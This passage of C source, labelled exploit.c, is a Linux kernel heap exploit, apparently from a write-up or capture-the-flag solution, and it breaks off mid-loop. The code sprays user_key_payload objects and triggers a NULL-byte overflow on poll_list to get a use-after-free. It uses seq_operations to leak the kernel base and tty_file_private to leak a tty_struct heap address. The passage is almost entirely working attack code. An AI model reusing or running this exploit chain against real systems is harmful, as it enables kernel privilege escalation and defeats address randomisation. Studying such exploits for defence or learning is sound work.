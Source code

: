 ```exploit.c

  // Spray again victim `user_key_payload` in kmalloc-32
  spray_keys(NUM_KEY_SPRAY, 'A');

  // NULL-byte overflow (hopelly) on `poll_list`, whose `next` pointer get pointing to `user_key_payload` in kmalloc-32.
  puts("[+] NULL-byte overflow ing...");
  nullbyte_overflow();

  // Wait all `poll_list` are freed
  for (int ix = 0; ix != NUM_1ST_POLLLIST_ALLOC; ++ix) {
    open("/proc/self/stat", O_RDONLY);
    pthread_join(threads[ix], NULL);
  }
  puts("[+] Freed all 'poll_list'");

  // Place `seq_operations` on UAFed `user_key_payload` in kmalloc-32
  for(int ix = 0; ix != NUM_SEQOPERATIONS; ++ix) {
    if ((seqops_fd[ix] = open("/proc/self/stat", O_RDONLY)) <= 2) errExit("open seqops");
  }

  // Check all keys to leak kbase via `seq_operations`
  ulong single_show = 0;
  key_serial_t uafed_key = 0;
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    int num_read;
    memset(keybuf, 0, 0x5000);
    if((num_read = keyctl_read(keys[ix], keybuf, 0x5000)) <= 0) errExit("keyctl_read");
    if (strncmp(keybuf, "AAAA", 4) != 0) {
      single_show = *(ulong*)keybuf;
      uafed_key = keys[ix];
      if (single_show == 0) {
        puts("[-] somehow, empty key found");
      } else break;
    }
  }
  if (single_show == 0) {
    puts("[-] Failed to leak kbase");
    exit(1);
  }
  printf("[!] leaked single_show: 0x%lx\n", single_show);
  kbase = single_show - (0xffffffff813275c0 - 0xffffffff81000000);
  printf("[!] leaked kbase: 0x%lx\n", kbase);

  // Free all keys except UAFed key
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    if (keys[ix] != uafed_key) free_key(keys[ix]);
  }
  sleep(1); // wait GC(security/keys/gc.c) actually frees keys

  // Place `tty_file_private` on UAFed `user_key_payload` in kmalloc-32
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    if ((tty_fd[ix] = open("/dev/ptmx", O_RDWR | O_NOCTTY)) <= 2) errExit("open tty");
  }

  // Read `tty_file_private.tty` which points to `tty_struct` in kmalloc-1024
  memset(keybuf, 0, 0x5000);
  int num_read = 0;
  if((num_read = keyctl_read(uafed_key, keybuf, 0x5000)) <= 0) errExit("keyctl_read");
  printf("[+] read 0x%x bytes from UAFed key\n", num_read);
  ulong km1024_leaked = 0;
  ulong *tmp = (ulong*)keybuf + 1;
  for (int ix = 0; ix != 0x4330/8 - 2 - 1; ++ix) {
```